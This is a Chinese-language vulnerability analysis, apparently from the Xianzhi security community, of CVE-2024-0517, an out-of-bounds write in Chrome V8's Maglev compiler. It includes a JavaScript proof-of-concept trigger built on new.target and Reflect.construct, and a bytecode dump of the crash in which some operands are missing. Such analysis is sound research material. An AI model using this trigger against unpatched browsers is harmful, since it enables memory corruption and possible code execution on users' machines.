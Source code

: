 

# Chrome V8 越界写入代码执行漏洞 CVE-2024-0517 - 先知社区

Chrome V8 越界写入代码执行漏洞 CVE-2024-0517

- - -

# 漏洞影响范围

Google Chrome V8 <120.0.6099.224

# 漏洞代码分析

VisitFindNonDefaultConstructorOrConstruct 函数中存在一个漏洞，即 Maglev 函数中的一个问题。该函数在一个类拥有父类时，试图优化类的创建。具体而言，当类中包含一个 new.target 引用时，在生成代码时会触发逻辑问题，导致发生类型为越界写入的二阶漏洞。new.target 被定义为函数的元属性，用于检测该函数是否已使用 new 运算符调用。对于构造函数而言，它允许访问通过 new 运算符调用的函数。在下述情况下，Reflect.construct 被用于构造带有 ClassBug 构造，而 ClassParent 作为 new.target 的 ClassBug。

```bash
function main() {
  class ClassParent {
  }
  class ClassBug extends ClassParent {
      constructor() {
        const v24 = new new.target();
        super();
        let a = [9.9,9.9,9.9,1.1,1.1,1.1,1.1,1.1];
      }
      [1000] = 8;
  }
  for (let i = 0; i ＜ 300; i++) {
      Reflect.construct(ClassBug, [], ClassParent);
  }
}
%NeverOptimizeFunction(main);
main();
```

崩溃

```bash
0x9b00019a548 @    0 : 19 fe f8          Mov , r1
         0x9b00019a54b @    3 : 0b f9             Ldar r0
         0x9b00019a54d @    5 : 69 f9 f9 00 00    Construct r0, r0-r0, [0]
         0x9b00019a552 @   10 : c3                Star2

         0x9b00019a553 @   11 : 5a fe f9 f2       FindNonDefaultConstructorOrConstruct , r0, r7-r8
         0x9b00019a557 @   15 : 0b f2             Ldar r7
         0x9b00019a559 @   17 : 19 f8 f5          Mov r1, r4
         0x9b00019a55c @   20 : 19 f9 f3          Mov r0, r6
         0x9b00019a55f @   23 : 19 f1 f4          Mov r8, r5
         0x9b00019a562 @   26 : 99 0c             JumpIfTrue [12] (0x9b00019a56e @ 38)
         0x9b00019a564 @   28 : ae f4             ThrowIfNotSuperConstructor r5
         0x9b00019a566 @   30 : 0b f3             Ldar r6
         0x9b00019a568 @   32 : 69 f4 f9 00 02    Construct r5, r0-r0, [2]
         0x9b00019a56d @   37 : c0                Star5
         0x9b00019a56e @   38 : 0b 02             Ldar
         0x9b00019a570 @   40 : ad                ThrowSuperAlreadyCalledIfNotHole

         0x9b00019a571 @   41 : 19 f4 02          Mov r5,
         0x9b00019a574 @   44 : 2d f5 00 04       GetNamedProperty r4, [0], [4]
         0x9b00019a578 @   48 : 9d 0a             JumpIfUndefined [10] (0x9b00019a582 @ 58)
         0x9b00019a57a @   50 : be                Star7
```